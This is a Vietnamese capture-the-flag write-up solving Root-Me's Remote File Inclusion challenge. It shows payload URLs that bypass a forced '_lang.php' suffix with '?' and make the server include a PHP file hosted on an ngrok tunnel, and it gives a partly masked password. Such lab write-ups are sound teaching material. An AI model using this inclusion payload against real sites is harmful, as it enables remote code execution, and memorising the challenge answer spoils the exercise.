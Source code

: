 # [Remote File Inclusion](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)

Website có thiết lập parameter `?lang` để đọc source từ lang.php:

![](./media/image1.png)

Fuzz vào URL thì ta biết được, server sẽ tự động concat thêm `_lang.php` vào cuối keyword ta gán vào `?lang`:

![](./media/image2.png)

Challenge này thử thách về RFI, ta thử chèn một website bất kỳ vào `?lang`:

![](./media/image3.png)

Như ban nãy, server tự concat thêm `_lang.php`, ta sử dụng `?` để bypass phần concat với payload: `http://challenge01.root-me.org/web-serveur/ch13/?lang=https://github.com/nh4ttruong?`

![](./media/image4.png)

Bypass thành công, giờ thì ta sử dụng server để RFI qua challenge này. Set-up một file tên là **ntruong.txt** với content là payload PHP:

![](./media/image5.png)

Sử dụng ngrok server để public IP Address:

![](./media/image6.png)

URL để RFI: `https://f512-14-241-170-199.ap.ngrok.io/ntruong.txt`

![](./media/image7.png)

Giờ thì gắn vào `?lang` ta được:

![](./media/image8.png)

```yaml
Password: R3m0t3_iS_r3aL1y_********************
```

![](./media/image9.png)

- Flag: "****************************"
